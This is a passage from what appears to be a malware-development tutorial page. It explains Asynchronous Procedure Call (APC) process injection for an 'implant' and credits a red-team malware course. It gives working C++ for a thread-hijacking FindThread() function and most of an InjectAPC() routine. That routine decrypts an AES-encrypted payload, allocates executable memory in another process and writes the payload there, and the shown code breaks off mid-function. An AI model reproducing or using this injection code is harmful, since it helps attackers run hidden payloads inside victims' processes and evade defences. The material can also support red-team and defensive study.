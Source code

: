Note that, in this example, `FindThread()` is not called within the `main()` function of the implant, only within the proceeding Asynchronous Procedure Call (APC) Injection function (`InjectAPC`), where it returns the handle to the targeted thread.

```c++
// Credit: reenz0h (@sektor7net), RTO Malware Development Essentials course
HANDLE FindThread(int pid){

	HANDLE hThread = NULL;
	THREADENTRY32 thEntry;

	thEntry.dwSize = sizeof(thEntry);
    HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
		
	while (Thread32Next(Snap, &thEntry)) {
		if (thEntry.th32OwnerProcessID == pid) 	{
			hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID);
			break;
		}
	}
	CloseHandle(Snap);
	
	return hThread;
}
```

#### Asynchronous Procedure Call (APC) Injection
Note that this function begins by declaring a null handle (`hSection`) to the target section, and a null pointer to the payload. The null handle to the thread (`hThread`) is re-declared as the return value of the custom `FindThread()` function, which takes the target Process ID (PID) as an argument and returns a handle to a targetable thread within the process.

After these declarations, the function calls [`VirtualAllocEx()`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) to allocate executable memory into a target process (`hProc`), [`WriteProcessMemory()`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) to write the payload (`pRemoteCode`) into this newly allocated memory within the process (`hProc`), and the [AES Decryption (`AESDecrypt()`](https://github.com/Wumbobfuscation/Wumbobfuscation/blob/main/Process%20Injection/Process%20Injection%20Template.md#aes-decryption) function is called, corresponding to the AES encryption performed in the [process injection template](https://github.com/Wumbobfuscation/Wumbobfuscation/blob/main/Process%20Injection/Process%20Injection%20Template.md#aes-decryption).

Then, [`QueueUserAPC`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) is called to add the pointer to the payload (`pRemoteCode`) as an APC object to a thread APC Queue, and wait for the thread to enter **Alertable State**. Note that the [`QueueUserAPC()`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) function should cast the pointer (`pRemoteCode`) argument as a [PAPCFUNC Callback Function](https://docs.microsoft.com/en-us/windows/win32/api/winnt/nc-winnt-papcfunc), which is a type specifically used to designate addresses within the Asychronous Procedure Call (APC) Queue.

```c++
int InjectAPC(int pid, HANDLE hProc, unsigned char * payload, unsigned int payload_len) {

	HANDLE hThread = NULL;
	LPVOID pRemoteCode = NULL;

	hThread = FindThread(pid);
	if (hThread == NULL) {
		printf("Error, hijack unsuccessful.\n");
		return -1;
	}

	AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));	

	pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
	WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);
```